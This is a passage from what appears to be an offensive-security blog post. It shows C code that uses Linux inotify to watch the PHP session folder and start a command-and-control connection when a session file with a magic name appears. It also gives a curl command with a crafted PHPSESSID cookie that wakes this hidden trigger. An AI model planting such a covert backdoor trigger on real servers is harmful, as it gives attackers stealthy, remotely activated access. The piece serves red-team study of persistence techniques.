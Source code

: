 ```c
int main(int argc, char **argv){
    int length, i= 0, wd;
    int fd; 
    char buffer[BUF_LEN];


    //Initiate inotify
    if ((fd = inotify_init()) < 0) {
        printf("Could not initiate inotify!!\n");
        return -1;
    }

    //Session folder as set in session.save_path
    if ((wd = inotify_add_watch(fd, "/var/lib/php/session", IN_CREATE) == -1) {
        printf("Could not add a watcher!!\n");
        return -2;
    }

    //Main loop 
    while(1) {
        i = 0;
        length = read(fd, buffer, BUF_LEN);
        if (length < 0) {
            return -3;
        }

        while (i < length) {
            struct inotify_event *event = (struct inotify_event *)&buffer[i];
            if (event->len) {
                
                    if (strncmp(event->name, "sess_ALEAIACTAEST", strlen("sess_ALEAIACTAEST")) == 0){
                        start_communication_with_CC();
                    }
                
                i += EVENT_SIZE + event->len;
            }
        }
    }

}
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
With a simple Curl request (`curl http://localhost/test.php --cookie "PHPSESSID=ALEAIACTAESTx1"`) we can trigger the action.

## 0x03 Final words
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As I said in the introduction this is a brief article to give you some ideas related with inotify. Probably I gonna edit this post in the future to increase it with more ideas, but If you already have one, feel free to ping me at twitter ([@TheXC3LL])(https://twitter.com/TheXC3LL).
